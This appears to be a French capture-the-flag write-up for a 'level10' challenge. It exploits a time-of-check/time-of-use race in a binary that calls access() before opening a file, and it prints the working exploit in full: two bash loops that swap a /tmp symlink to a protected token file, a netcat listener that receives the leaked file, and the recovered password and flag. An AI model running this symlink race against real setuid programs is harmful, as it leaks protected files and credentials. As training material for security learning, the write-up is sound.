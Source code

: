 On trouve dans le dossier **home** un fichier **token** et un binaire **level10** qui, si on le lance nous affiche un message:
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token IP
You don't have access to token
</code></pre>
> On suppose que l'host est l'ip sur laquelle la machine tourne (<code>ifconfig</code>)

On créé un fichier dans /tmp qui aura nos droits, et qui pourra donc être envoyé:
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test IP
Connecting to IP:6969 .. Unable to connect to host IP
</code></pre>

On cherche à savoir ce qu'il se passe dans le binaire avec un fichier valide:
<pre><code>> ltrace ./level10 /tmp/test IP
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "IP")= 35
fflush(0xb7fd1a20Connecting to IP:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("IP")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "IP"Unable to connect to host IP)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

On observe que la commande **access** est utilisée, or on sait grâce à son man, que cette commande possède une faille
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

De plus on observe la tentative de connexion au port 6969 qui n'est pas actif.
Pour que les requêtes ce fassent, il faut donc écouter le port grâce à :
<pre><code>> nc -lk 6969</code></pre>
Et si on relance notre commande:
<pre><code>> ./level10 /tmp/test IP
Connecting to IP:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> Il faut 2 terminaux pour effectuer cette manipulation afin de voir le résultat de l'écoute qui, dans cet exemple, nous donne :
> <pre><code>.*( )*.
> test</code></pre>


On va donc chercher à exploiter la **race-condition-vulnerability**, avec 2 scripts:

### /tmp/loop.sh
```bash
# Ce script lance la requete d'envoie de fichier en boucle
while true;
do
	/home/user/level10/level10 /tmp/link IP > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link IP > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# Ce script creer un fichier sur lequel on a les droits et fait un lien symbolique du fichier token en boucle
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Il suffit de lancer les deux en background et de regarder le deuxième terminal qui écoute le port 6969 en attendant les deux scripts s'exécute de manière assez proche pour que la **race-condition-vulnerability** soit exploitée :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
</code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

On teste le mot de passe :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>